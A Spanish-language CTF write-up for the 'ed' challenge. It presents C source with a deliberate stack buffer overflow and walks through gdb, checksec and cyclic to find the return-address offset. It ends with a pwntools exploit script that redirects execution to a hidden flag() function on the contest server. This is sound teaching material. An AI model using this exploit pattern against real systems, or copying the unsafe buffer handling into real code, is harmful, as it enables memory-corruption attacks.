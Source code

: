 # Enunciado
![Imagen01](01.png)

# Resolución

Nos proporcionan el siguiente código (chall.c) y su binario correspondiente (ed):
~~~
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int flag() {
	puts(getenv("FLAG"));
}

int main(int argc, char** argv) {
	char input[24]; 
	char filename[24] = "\0";
	char buffer[64];
	FILE* f = NULL;
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	if (argc > 1) {
		strncpy(filename, argv[1], 23);
	}
	while (1) {
		fgets(input, 64, stdin);
		input[strcspn(input, "\n")] = 0;
		if (input[0] == 'Q') {
			return 0;
		} else if (input[0] == 'f') {
			if (strlen(input) >= 3) {
				strcpy(filename, input + 2);
			}

			if (filename[0] == '\0') {
				puts("?");
			} else {
				puts(filename);
			}
		} else if (input[0] == 'l') {
			if (filename[0] == '\0') {
				puts("?");
			} else {
				if (strchr(filename, '/') != NULL) {
					puts("?");
					continue;
				}

				f = fopen(filename, "r");
				if (f == NULL) {
					puts("?");
					continue;
				}

				while (fgets(buffer, 64, f)) {
					printf("%s", buffer);
				}
				fclose(f);
			}
		} else {
			puts("?");
		}
	}
}
~~~
En el mismo, tenemos la fúnción `int flag()` que imprime la flag pero que nunca es llamada en el código, por lo que podemos tratar de obtener la dirección en la que se encuentra dicha función y modificar de alguna forma el flujo de programa para que se ejecute.

Primero, ejecutamos gdb-gef con el binario 'ed':

![](05.png)

y buscamos la dirección de memoria de la función *flag()*. Lo hacemos con el comando ´print &flag´

![](07.png)

Obtenemos la dirección **0x4011d2**

Ahora debemos de comprobar si el código ejecutable ha sido compilado sin alguna de las protecciones que impiden el desbordamiento de buffer. Lo hacemos con checksec:

![](02.png)

Vemos que no tiene la protección *Stack Canary* ni *PIE* por lo que en principio parece vulnerable a desbordamientos de pila.

> Un **stack canary** es un valor de seguridad colocado en la pila justo antes de la dirección de retorno en una función. Este valor se elige de forma aleatoria al inicio de la ejecución del programa y se verifica al finalizar la función antes de que se produzca el retorno. Si el valor del canary se ha modificado, se asume que ha ocurrido un desbordamiento de búfer y el programa puede tomar medidas para prevenir un posible ataque como terminar abruptamente la ejecución, generar una excepción o informar del intento de ataque.

> Las **protecciones PIE** (Position Independent Executable) son técnicas de seguridad que hacen que el código y los datos de un programa se carguen en posiciones de memoria aleatorias cada vez que se ejecuta. Esto dificulta a los atacantes explotar vulnerabilidades de memoria, ya que no conocen de antemano la ubicación exacta de las estructuras de datos y funciones en el programa. 

Para conseguir el desbordamiento debemos de encontrar alguna forma de introducción de datos que permita que el programa se 'desborde'. Un desbordamiento generalmente se produce cuando un programa escribe más datos en un búfer de los que puede contener. 

En el código suministrado tenemos dos líneas que posibilitan un buffer overflow debido a la discrepancia en los tamaños de los búferes y la forma en que se maneja la entrada del usuario.

1. `char input[24];`: Aquí, se declara un array de caracteres `input` con un tamaño fijo de 24 bytes.

2. `fgets(input, 64, stdin);`: En esta línea, se utiliza la función `fgets` para leer hasta 64 caracteres de la entrada estándar (`stdin`) y almacenarlos en el búfer `input`. Sin embargo, como se definió que `input` solo tiene espacio para 24 bytes, si el usuario ingresa más de 23 caracteres (más el carácter nulo de terminación), esto resultará en un buffer overflow. Esto es porque `fgets` tratará de escribir más datos en `input` de los que puede contener de manera segura.


Ejecutándolo en local vemos que efectivamente al introducir una cadena larga y luego pulsar 'Q', obtenemos el desbordamiento de buffer que estamos buscando:

![](03.png)

Vamos a utilizar el comando 'cyclic' de 'pwntools' para generar una cadena con un patrón conocido, luego la editaremos para añadir una 'Q' en la siguiente línea, es decir, replicamos en un fichero de texto la entrada con la que hemos conseguido el buffer overflow pero con un patrón de texto conocido que después podemos ubicar en memoria al ejecutarlo con una herramienta como 'gdb'

![](04.png)

Para ejecutar el programa desde dentro de gdb con el fichero de texto generado, debemos de utilizar el comando ´r< cadena.txt´, obteniendo la siguiente salida:

![](09.png)

En este caso nos interesa poder sobreescribir el stack pointer (registro **rsp**) que apunta a la cima de pila para ubicar en él la dirección de la función flag().

Para ello podemos usar la herramienta cyclic de nuevo para determinar exactamente en qué parte de la cadena de caracteres se encuentra "kaaalaaamaaanaaaoaaapaa" que es la parte que sobrescribió el stack pointer. Sabiendo la posición de dicha cadena en la cadena original tendremos el offset en el que necesitamos escribir la dirección 0x4011d2, que es la de la función flag().

![](08.png)

Obtenemos un offset de 40.

Con todos estos datos, generamos un pequeño programa en python utilizando la librería *pwntools*

~~~
from pwn import *

conexion = remote("ed.hsctf.com", 1337)
offset = 40
direccion_funcion_flag = p64(0x4011d2)
conexion.sendline(b'a'*offset + direccion_funcion_flag)
conexion.recv()
conexion.sendline(b'Q')
print(conexion.recv())
~~~
Donde:  

 - `conexion = remote("ed.hsctf.com", 1337)`: Establece una conexión al servidor remoto.
 - `direccion_funcion_flag = p64(0x4011d2)`: Convierte la dirección hexadecimal 0x4011d2 en una cadena de 8 bytes (64 bits) utilizando la función `p64`. 
 - `conexion.sendline(b'a'*offset + direccion_funcion_flag)`: Envía una cadena al servidor que consta de 40 caracteres 'a' seguidos de la dirección de la función que queremos ejecutar, sobrescribiendo la dirección de retorno en la pila con la dirección de la función que queremos ejecutar.
 - `conexion.recv()`: Se recibe y descarta cualquier respuesta del servidor. Necesario para que el programa remoto procese completamente la entrada anterior.
 - `conexion.sendline(b'Q')`: Envía el carácter 'Q' al servidor. Esto provoca que el programa remoto retorne, provocando que salte a la dirección de la función que hemos inyectado en la pila.
 - `print(conexion.recv())`: Recibe y luego imprime la respuesta final del servidor.

Lo ejecutamos y conseguimos la bandera:

![](10.png)


 
**Autor:** [Andr3sdelRio](https://twitter.com/Andr3sdelRio) 

- [URL original del reto](https://ctf.hsctf.com/challs). *Disclaimer:Probablemente offline después de finalizar la competición* 
 
